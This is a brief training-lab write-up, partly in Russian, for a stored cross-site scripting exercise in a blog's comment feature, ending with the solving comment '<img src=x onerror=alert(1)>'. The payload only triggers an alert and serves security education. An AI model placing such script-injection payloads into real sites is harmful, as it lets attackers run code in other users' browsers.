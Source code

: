 # Stored XSS into HTML context with nothing encoded
APPRENTICE

This lab contains a stored cross-site scripting vulnerability in the comment functionality.

To solve this lab, submit a comment that calls the alert function when the blog post is viewed.

## Решение
Оставляю комментарий к посту с текстом:
```
<img src=x onerror=alert(1)>
```
Задание выполнено.

